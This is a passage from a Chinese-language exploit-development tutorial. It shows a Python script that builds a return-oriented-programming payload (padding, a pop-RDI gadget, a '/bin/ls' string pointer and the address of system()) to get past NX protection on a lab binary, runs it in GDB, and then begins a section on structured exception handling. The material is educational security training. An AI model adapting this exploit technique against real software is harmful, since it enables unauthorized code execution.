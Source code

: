 现在，我们已经得到了带有地址`0x400697`的字符串的位置。

栈的逻辑顺序应该是：

1.  `system`函数的地址

1.  将被弹出到 RDI 寄存器的字符串指针

1.  ROP 小工具用于提取 pop，即栈中的最后一个元素到 RDI 寄存器

现在，我们需要以相反的顺序将它们推入栈中，使用我们的利用代码：

```
#!/usr/bin/env python
from struct import *

buffer = ""
buffer += "A"*104 # junk
buffer += pack("<Q", 0x0000000000400653) # <-- ROP gadget
buffer += pack("<Q", 0x400697) #  <-- pointer to "/bin/ls"
buffer += pack("<Q", 0x7ffff7a57590) # < -- address of system function

f = open("input.txt", "w")
f.write(buffer)
```

让我们运行脚本来更新`input.txt`：

```
$ ./exploit.py
```

然后，从 GDB 中运行以下命令：

```
$ run < input.txt
```

栈的逻辑顺序应该是：

![](img/00326.jpeg)

成功了！正如你所看到的，`ls`命令成功执行了。我们找到了绕过 NX 保护并利用这段代码的方法。

# 结构化异常处理

**结构化异常处理**（**SEH**）只是在代码执行过程中发生的事件。我们可以在高级编程语言中看到 SEH，比如 C++和 Python。看一下下面的代码：

```
try:
    divide(6,0)
except ValueError:
    print "That value was invalid."
```
